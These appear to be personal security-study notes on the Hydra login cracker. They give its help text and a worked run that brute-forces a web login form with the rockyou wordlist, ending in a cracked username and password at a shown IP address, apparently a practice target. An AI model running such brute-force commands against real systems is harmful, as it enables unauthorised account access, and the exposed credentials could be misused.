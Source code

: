 # Password Cracking

## Hydra

hydra [some command line options] [-s PORT] TARGET PROTOCOL [MODULE-OPTIONS]

### HELP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1


hydra [some command line options] [-s PORT] TARGET PROTOCOL [MODULE-OPTIONS]

### Real example of execution

kali@kali:/usr/share/wordlists$ hydra -L rockyou.txt -p password 3X.XXX.XXX.XX7 http-post-form "/51xxxxxf3/login:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 13:31:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://34.74.105.127:80/516f8613f3/login:username=^USER^&password=^PASS^:Invalid username

[STATUS] 1450.00 tries/min, 1450 tries in 00:01h, 14342949 to do in 164:52h, 16 active
[STATUS] 1426.00 tries/min, 4278 tries in 00:03h, 14340121 to do in 167:37h, 16 active
[ERROR] Can not create restore file (./hydra.restore) - Permission denied
[STATUS] 1429.14 tries/min, 10004 tries in 00:07h, 14334395 to do in 167:11h, 16 active
[STATUS] 1435.93 tries/min, 21539 tries in 00:15h, 14322860 to do in 166:15h, 16 active
[STATUS] 1438.68 tries/min, 44599 tries in 00:31h, 14299800 to do in 165:40h, 16 active
[STATUS] 1436.09 tries/min, 67496 tries in 00:47h, 14276903 to do in 165:42h, 16 active
[STATUS] 1432.38 tries/min, 90240 tries in 01:03h, 14254159 to do in 165:52h, 16 active
[STATUS] 1437.46 tries/min, 113559 tries in 01:19h, 14230840 to do in 165:01h, 16 active
[STATUS] 1442.82 tries/min, 137068 tries in 01:35h, 14207331 to do in 164:07h, 16 active
[STATUS] 1447.39 tries/min, 160660 tries in 01:51h, 14183739 to do in 163:20h, 16 active
[STATUS] 1450.36 tries/min, 184196 tries in 02:07h, 14160203 to do in 162:44h, 16 active
[STATUS] 1451.15 tries/min, 207514 tries in 02:23h, 14136885 to do in 162:22h, 16 active
[80][http-post-form] host: 34.74.105.127   login: ianthe   password: password
